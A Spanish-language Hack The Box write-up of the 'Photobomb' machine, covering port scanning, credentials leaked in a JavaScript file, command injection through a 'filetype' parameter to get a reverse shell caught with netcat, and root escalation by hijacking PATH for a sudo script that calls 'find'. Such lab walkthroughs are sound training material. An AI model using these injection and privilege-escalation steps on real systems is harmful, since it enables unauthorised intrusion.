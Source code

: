 ```yaml
---
layout: single
title: Photobomb - Hack The Box
excerpt: "Photobomb es una maquina de dificultad facil donde en el propio codigo de la pagina web hay un archivo JS donde obtenemos el nombre de usuario y su contraseña para acceder a una ruta en la cual no teniamos acceso despues abusamos del parametro filetype para obtener una reverse shell y para la escalada de privilegios vamos a usar un path traverse para obtener una shell como root"
date: 2023-02-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-photobomb/new.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - FileType
  - Sudoers privilege
---
```


<p align="center">
<img src="/assets/images/htb-writeup-photobomb/iconphoto.png">
</p>

## PortScan

```bash
❯ nmap -sCV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-18 18:08 CST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.88 seconds
```

Vemos que hay un subdominio hay que agregarlo al `/etc/hosts`

```bash
❯ whatweb http://10.10.11.182
http://10.10.11.182 [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], RedirectLocation[http://photobomb.htb/], Title[302 Found], nginx[1.18.0]
http://photobomb.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], Script, Title[Photobomb], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

```bash
❯ cat /etc/hosts | grep photobomb
10.10.11.182 photobomb.htb
```

Funciona

```
❯ ping -c 1 photobomb.htb
PING photobomb.htb (10.10.11.182) 56(84) bytes of data.
64 bytes from photobomb.htb (10.10.11.182): icmp_seq=1 ttl=63 time=1261 ms

--- photobomb.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1260.996/1260.996/1260.996/0.000 ms
```

Vamos a inspeccionar la pagina web que corre en el puerto 80

![](/assets/images/htb-writeup-photobomb/Web1.png)

Vemos que si damos click en `click here` nos muestra este panel de autenticacion

![](/assets/images/htb-writeup-photobomb/Web2.png)

No tenemos credenciales por el momento asi que podemos ver el codigo fuente

![](/assets/images/htb-writeup-photobomb/Web3.png)

Vemos que hay un archivo `.js` vamos a ver que es lo que tiene

```bash
❯ curl http://photobomb.htb/photobomb.js
```
```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Nos esta dando un enlace si lo copiamos y pegamos vemos que nos autentica automaticamente y nos muestra esta web

![](/assets/images/htb-writeup-photobomb/Web4.png)

En la parte de del boton rojo vemos que podemos descargar una foto vamos a interceptar con `burpsuite` la peticion

Al interceptar nos muestra esto

![](/assets/images/htb-writeup-photobomb/inter.png)

En la parte de `filetype` vemos que hay es donde esta definiendo la extencion del archivo que queremos asi que podemos tratar de concatenar un comando y directamente vamos a enviarnos una reverse shell 

![](/assets/images/htb-writeup-photobomb/code.png)

<https://www.revshells.com/>

Una vez puesto hay vamos a ponernos en escucha en el puerto `443` para recibir la `shell`

![](/assets/images/htb-writeup-photobomb/listo.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ahora damos a `forward` para recibir la shell

![](/assets/images/htb-writeup-photobomb/forward.png)

Funciona

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.113] from (UNKNOWN) [10.10.11.182] 45146
bash: cannot set terminal process group (715): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 
```

Para poder hacer `ctrl+c` podemos hacer

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
ENTER
```

Podemos ver la primer flag

```bash
wizard@photobomb:~$ cat user.txt 
857825188e86ff89aee311f10870e0ec
wizard@photobomb:~$ 
```

Nada interesante

```bash
wizard@photobomb:/$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
wizard@photobomb:/$ 
```

## Escalada de Privilegios

Si hacemos un `sudo -l` podemos ejecutar este `script` y setear variables de enterno

```bash
wizard@photobomb:/$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:/$ 
```

Vamos a ver el script y esta usuando el comando `find` que encontramos en la ultima linea lo que esta haciendo es que

```
Esta buscando todos los archivos con extensión ".jpg" en el directorio "source_images" y sus subdirectorios, y cambia el propietario y grupo de cada archivo encontrado a "root:root".
```

```bash
wizard@photobomb:/$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:/$ 
```

`Tenemos la capacidad de modificar variables como el 'path' para utilizar un comando 'find' personalizado. Además, si ejecutamos el comando 'find' con privilegios de administrador, el 'find' se ejecutará con permisos de root.`


```bash
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
```

Ahora somos root

```
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
root
root@photobomb:/home/wizard/photobomb# cd /root
root@photobomb:~# cat root.txt 
bc2ba4ec7d130530e08a60ce6b034fde
root@photobomb:~# 
```
